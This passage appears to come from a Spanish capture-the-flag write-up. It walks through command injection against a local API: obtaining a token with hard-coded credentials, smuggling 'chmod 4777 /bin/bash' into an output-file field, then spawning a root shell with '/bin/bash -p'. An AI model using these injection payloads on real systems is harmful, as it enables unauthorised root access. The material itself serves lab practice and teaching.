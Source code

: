 <p>observamos que la función requiere un archivo de entrada y un archivo de salida, pero tenemos control sobre el archivo de salida. La función crea un archivo basado en el nombre del archivo de salida que proporcionamos. Esto nos da la oportunidad de intentar la inyección de comandos manipulando el nombre del archivo de salida</p>
<p>Lo primero fue obtener aut TOKEN</p>
<pre><code>
 curl -X POST http://127.0.0.1:9090/login -H "Content-Type: application/json" -d '{"username":"developer","password":"bigbang"}' -v    
</code></pre>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-28%20015808.png?raw=true" alt="Captura de pantalla">
<p>Intentando simplemente ejecutar un archivo después de muchos intentos fallidos antes de que se haga un archivo</p>
<pre><code>
touch /tmp/foo
chmod +x /tmp/foo  
</code></pre>
<p>El primer argumento que daremos es este foo, entonces inyectaremos nuestro segundo comando con eso y solo para probar haremos un archivo en /tmp</p>

<pre><code>
 curl -X POST http://127.0.0.1:9090/command \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MDcyNTg2OCwianRpIjoiOGY1NGE0N2EtZWM4OS00Y2YyLWFkNzAtMTk5NWYzZDdjNjk1IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0MDcyNTg2OCwiY3NyZiI6ImVjY2RjYmEwLTBmMzctNGQ0OS05YmMwLTA3ZTczNDI5ZTg4ZiIsImV4cCI6MTc0MDcyOTQ2OH0.SsWgWeA4MwLWvGpk15ofm5pdxpod3ONO50s3JdH1aBQ" \
     -d '{"command":"send_image","output_file":"foo","extra":"touch /tmp/pain"}'
  </code></pre>
<h1>ROOT</h1>
<p> Finalmente, los comandos se están ejecutando y el propietario del archivo es root</p> 
<p>Cambiar el permiso en /bin/bash para obtener el privilegio de root </p>
<pre><code>
curl -X POST http://127.0.0.1:9090/command \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer yJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MDcyNTg2OCwianRpIjoiOGY1NGE0N2EtZWM4OS00Y2YyLWFkNzAtMTk5NWYzZDdjNjk1IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0MDcyNTg2OCwiY3NyZiI6ImVjY2RjYmEwLTBmMzctNGQ0OS05YmMwLTA3ZTczNDI5ZTg4ZiIsImV4cCI6MTc0MDcyOTQ2OH0.SsWgWeA4MwLWvGpk15ofm5pdxpod3ONO50s3JdH1aBQ" \
     -d '{"command":"send_image","output_file":"foo \nchmod 4777 /bin/bash"}'
</code></pre>
<pre><code>
ls -la /bin/bash
/bin/bash -p
id
</code></pre>